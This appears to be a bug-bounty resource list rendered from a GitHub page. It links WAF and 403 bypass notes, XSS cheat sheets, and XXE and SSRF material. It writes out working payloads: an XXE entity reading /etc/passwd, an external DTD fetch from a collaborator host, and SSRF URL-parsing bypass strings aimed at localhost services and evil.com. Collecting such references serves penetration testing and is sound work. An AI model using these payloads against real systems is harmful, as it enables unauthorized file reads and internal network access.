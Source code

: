 https://www.slideshare.net/snyff/code-that-gets-you-pwnsd
<br># Code that gets you pwn(s|'d). Very intersting bypasses ideas.

https://github.com/aufzayed/bugbounty/tree/main/403-bypass
<br># Common 403 bypass.

## Manual

### Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings
<br># PayloadsAllTheThings

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html
<br># Unicode normalization good for WAF bypass.
  
<br># XSS
<br>https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<br># This cross-site scripting (XSS) cheat sheet contains many vectors that can help you bypass WAFs and filters. You can select vectors by the event, tag or browser and a proof of concept is included for every vector.
<br>https://www.gremwell.com/firefox-xss-302
<br># Forcing Firefox to Execute XSS Payloads during 302 Redirects.

<br># XXE
<br>https://portswigger.net/web-security/xxe
<br># XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
<br>```<?xml version="1.0" encoding="UTF-8"?>```
<br>```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>```
<br>```<stockCheck><productId>&xxe;</productId></stockCheck>```

https://phonexicum.github.io/infosec/xxe.html
<br># Information Security PENTEST XXE
<br>```<!DOCTYPE foo SYSTEM "http://xpto.burpcollaborator.net/xpto.dtd">```

https://github.com/GoSecure/dtd-finder
<br># Identify DTDs on filesystem snapshot and build XXE payloads using those local DTDs.

<br># SSRF
<br>https://www.blackhat.com/us-17/briefings.html#a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages
<br># We propose a new exploit technique that brings a whole-new attack surface to bypass SSRF (Server Side Request Forgery) protections.
<br>```http://1.1.1.1&@2.2.2.2#@3.3.3.3/```
<br>```http://127.0.0.1:11211:80/```
<br>```http://google.com#@evil.com/```
<br>```http://foo@evil.com:80@google.com/```
<br>```http://foo@evil.com:80 @google.com/```
<br>```http://127.0.0.1\tfoo.google.com/```
<br>```http://127.0.0.1%09foo.google.com/```
<br>```http://127.0.0.1%2509foo.google.com/```
<br>```http://127.0.0.1:11211#@google.com:80/```
<br>```http://foo@127.0.0.1:11211@google.com:80/```
<br>```http://foo@127.0.0.1 @google.com:11211/```
